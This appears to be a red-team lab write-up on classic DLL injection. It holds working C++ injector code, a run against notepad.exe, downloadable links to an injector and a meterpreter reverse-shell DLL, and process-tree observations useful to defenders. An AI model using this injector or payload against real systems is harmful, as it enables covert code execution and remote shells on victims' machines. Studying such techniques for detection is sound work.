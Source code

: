 ```yaml
---
description: Injecting DLL into a remote process.
---
```


# DLL Injection

This lab attempts a classic DLL injection into a remote process.

## Execution

{% tabs %}
{% tab title="inject-dll.cpp" %}
```cpp
int main(int argc, char *argv[]) {
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");
	
	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);	
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle); 
	
	return 0;
}
```
{% endtab %}
{% endtabs %}

Compiling the above code and executing it with a supplied argument of `4892` which is a PID of the notepad.exe process on the victim system:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
PS C:\experiments\inject1\x64\Debug> .\inject1.exe 4892
Injecting DLL to PID: 4892
```
{% endtab %}
{% endtabs %}

After the DLL is successfully injected, the attacker receives a meterpreter session from the injected process and its privileges:

![](../../.gitbook/assets/inject-dll-shell.png)

{% file src="../../.gitbook/assets/inject1.exe" caption="DLL injector.exe" %}

{% file src="../../.gitbook/assets/evilm64.dll" caption="c:\\experiments\\evilm64.dll \(windows/x64/meterpreter/reverse\_tcp\)" %}

## Observations

Note how the notepad spawned rundll32 which then spawned a cmd.exe because of the meterpreter payload \(and attacker's `shell` command\) that got executed as part of the injected evilm64.dll into the notepad process:

![](../../.gitbook/assets/inject-dll.png)

![](../../.gitbook/assets/inject-dll-procmon.png)

## References

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms683212\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms684175\(v=vs.85\).aspx" %}



